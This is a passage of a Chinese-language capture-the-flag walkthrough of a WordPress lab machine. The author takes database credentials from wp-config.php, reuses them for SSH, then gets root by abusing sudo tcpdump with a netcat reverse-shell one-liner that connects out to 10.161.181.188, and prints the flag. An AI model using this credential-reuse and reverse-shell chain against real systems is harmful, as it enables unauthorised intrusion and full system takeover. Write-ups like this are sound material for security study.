再看一下数据库文件吧：

```bash
cd /var/www/html
ls -la
cat wp-config.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103369.png" alt="image-20240317004031783" style="zoom:50%;" />

尝试能不能ssh进行登录。

```php
/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103370.png" alt="image-20240317004301553" style="zoom:50%;" />

登录成功了！

### 提权至root

尝试查看一下相关信息，信息搜集！！！

刚来就发现了好东西：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103371.png" alt="image-20240317004500368" style="zoom:50%;" />

我们可以尝试利用这个`tcpdump`，去查一下有无利用方式：

```url
https://gtfobins.github.io/gtfobins/tcpdump/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103372.png" alt="image-20240317004646376" style="zoom: 33%;" />

查看一下`suid`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103373.png" alt="image-20240317004739910" style="zoom:50%;" />

尝试提权：

```bash
cd /tmp
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.161.181.188 1234 >/tmp/f" > exp
chmod +x exp
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/exp -Z root
```

指令输入完以后退出`ssh`登录，就可以得到`root`了

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103374.png" alt="image-20240317010201589" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103375.png" alt="image-20240317010236203" style="zoom:50%;" />

拿到我们梦寐以求的flag了！

```flag
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```


